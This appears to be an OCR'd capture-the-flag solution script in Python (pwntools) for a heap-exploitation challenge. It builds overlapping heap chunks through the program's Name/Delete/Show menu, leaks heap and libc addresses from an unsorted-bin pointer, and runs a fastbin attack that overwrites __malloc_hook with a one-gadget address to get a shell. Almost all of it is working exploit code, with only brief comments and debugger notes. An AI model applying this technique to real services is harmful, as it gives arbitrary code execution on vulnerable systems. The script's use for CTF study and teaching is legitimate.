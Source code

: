 ```
#chunk overlap
Name(0, '0'*0x2F)
Name(1, '0'*0x40+'10')
Name(2, '0'*0x5F)

Name(3, '0'*0x1F)
Delete(3)
Name(3, '0'*0x1F)        #switch Name and Host

Name(10, '0'*0x5F)
Name(11, '0'*0x5F)
Name(12, '0'*0x5F)
Name(13, '0'*0x5F)


exp = '0'*0x2950
exp+= flat(0, 0x21, 0, 0)    #B0's next chunk
Name(5, exp)
Delete(1)                #UB&lt;=&gt;(H0, 0x3030)

#leak addr
exp = '0'.ljust(0x7F, '\x00')
Name(6, exp)            #split UB chunk, H3's h_addr_list=UB's bk
Show(3)

sh.recvuntil('0'*0x1F+'\n\n')
heap_addr = u64(sh.recv(6).ljust(8, '\x00'))-0x358
Log('heap_addr')
sh.recv(17)
libc.address = u64(sh.recv(6).ljust(8, '\x00'))-0x3c17a8
Log('libc.address')

#fastbin Attack
Delete(10)
exp = '0'*0x4F
Name(7, exp)

exp = '0'*0x10
exp+= flat(0, 0x71, libc.symbols['__malloc_hook']-0x23)
exp = exp.ljust(0xBF, '0')
Name(7, exp)

Name(8, '0'*0x5F)

exp = '0'*0x13
exp+= p64(libc.address+0x462b8)
Name(8, exp.ljust(0x5F, '0'))


#gdb.attach(sh, '''
#heap bins
#telescope 0x202040+0x0000555555554000 48
#break malloc
#''')



sh.interactive()

'''
NameArr            telescope 0x202040+0x0000555555554000
HostArr            telescope 0x2020C0+0x0000555555554000
BufferArr        telescope 0x2022C0+0x0000555555554000 
```